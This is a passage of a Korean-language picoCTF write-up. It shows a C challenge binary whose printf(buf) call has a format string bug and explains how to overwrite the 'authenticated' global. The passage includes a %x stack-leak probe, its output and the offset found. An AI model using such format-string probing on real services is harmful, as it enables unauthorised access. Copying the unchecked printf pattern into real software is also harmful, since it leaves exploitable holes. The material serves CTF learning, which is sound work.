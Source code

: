```c
  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```
<strong>main 함수 else if 문을 보면 printf 함수를 호출하는 데 이때 FSB 취약점이 발생합니다. 그리고 flag는 read_flag 함수에서 authenticated의 값이 참이면 flag 함수를 호출해서 flag를 출력해줍니다. 즉 전역 변수인 authenticated의 값을 FSB 취약점을 이용해서 참(1)으로 변조하면 됩니다.</strong><br>

```
root@py:~/pwn/picoCTF# ./auth
Would you like to read the flag? (yes/no)
aaaa.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Received Unknown Input:

aaaa.80489a6.f7ec1580.804875a.f7ec1000.ff992024.ff992028.ff9920f4.3.0.0.61616161.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.Sorry, you are not *authenticated*!
```
<strong>바이너리 파일을 이용해 오프셋을 확인해 보니 11인 것을 알 수 있었습니다.</strong><br>
